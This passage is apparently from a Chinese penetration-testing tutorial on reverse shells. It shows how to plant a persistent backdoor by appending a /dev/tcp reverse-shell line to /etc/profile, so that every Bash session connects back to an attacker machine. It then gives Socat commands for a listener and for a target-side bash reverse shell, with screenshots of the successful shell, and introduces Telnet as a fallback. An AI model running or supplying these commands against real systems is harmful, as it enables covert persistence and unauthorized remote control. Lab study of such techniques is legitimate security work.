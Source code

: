 文件 `/etc/profile` 中的内容，会在 **Bash** 窗口打开时执行。

#### 如图：
> （下图中我输入的是**错误的代码**，所以**启动 Bash** 之后，会**输出报错**内容到命令行）
> ![image-20230426012821415](https://res.cloudinary.com/sycamore/image/upload/v1682443705/Typera/2023/04/92211d839dd171dc8f115e037f1e07eb.png)
> （如果是**正确的代码**，但是攻击侧**没开监听**，也会报错，如下图：）
> ![image-20230426012825282](https://res.cloudinary.com/sycamore/image/upload/v1682443709/Typera/2023/04/566b0ca11a943f96d0bf550e848d84d4.png)

#### 布置的步骤：
 通过 `vim /etc/profile`，编辑文件：
![image-20230426012816962](https://res.cloudinary.com/sycamore/image/upload/v1682443699/Typera/2023/04/6a8db3c08c0188c7b0a9b1d25fed3c50.png)
<br>

- 在末尾添加代码：`/bin/bash -i >& /dev/tcp/192.168.158.139/23333 0>&1 &`
> 该命令比直接反弹的代码在 **末尾** 多了一个 **&**，
> 这是为了让打开 **Bash** 的用户能正常使用

![image-20230426012812596](https://res.cloudinary.com/sycamore/image/upload/v1682443696/Typera/2023/04/bf591833811a31c67bcfb2741ab7ca30.png)

**演示：**
- 攻击机开始监听 23333 端口
- **Xshell** 打开目标机的会话（即**启动了 Bash**）
![image-20230426012807425](https://res.cloudinary.com/sycamore/image/upload/v1682443691/Typera/2023/04/1fe57f518c02b5c5651dc8fbfe3269c7.png)
- 没有回显，且攻击机**成功 getshell**，**反弹成功**
![image-20230426012804072](https://res.cloudinary.com/sycamore/image/upload/v1682443688/Typera/2023/04/5d329939a4e8d82c53c712f4b54adb09.png)
## 利用 Socat 反弹 Shell
**Socat** 是 **Linux** 下一个多功能的网络工具，功能与 **netcat (nc)** 类似。
所以我们也可以使用 **Socat**，开监听、反弹 **Shell**

### 下载 Socat
试验之前，要先下载 **Socat**（**Kali Linux** 已经**预装**了该工具），
如果没有安装，使用命令：`apt-get install socat` 

### 攻击机开启监听
命令：`socat TCP-LISTEN:23333 -`
![image-20230426012759404](https://res.cloudinary.com/sycamore/image/upload/v1682443682/Typera/2023/04/f6ffc230be89565c17383bbe1e8262a3.png)

### 目标机通过 Socat 建立连接
命令：`socat tcp-connect:192.168.158.139:23333 exec:'bash -li',pty,stderr,setsid,sigint,sane`
![image-20230426012754642](https://res.cloudinary.com/sycamore/image/upload/v1682443678/Typera/2023/04/00614ff7b3a1a2dfdfbad02dc0df8be1.png)

**成功** 反弹 **Shell**：
![image-20230426012750258](https://res.cloudinary.com/sycamore/image/upload/v1682443674/Typera/2023/04/7b31e1aa07c5c4bdcbd9e6cafad1655a.png)

## 利用 Telnet 反弹 Shell
我们总会遇到，目标机 **Netcat** 和 `/dev/tcp/` 方法不可用的情况，
这时候如果 目标机配有 **Telnet** 服务，我们可以用 **Telnet** 建立反向连接。
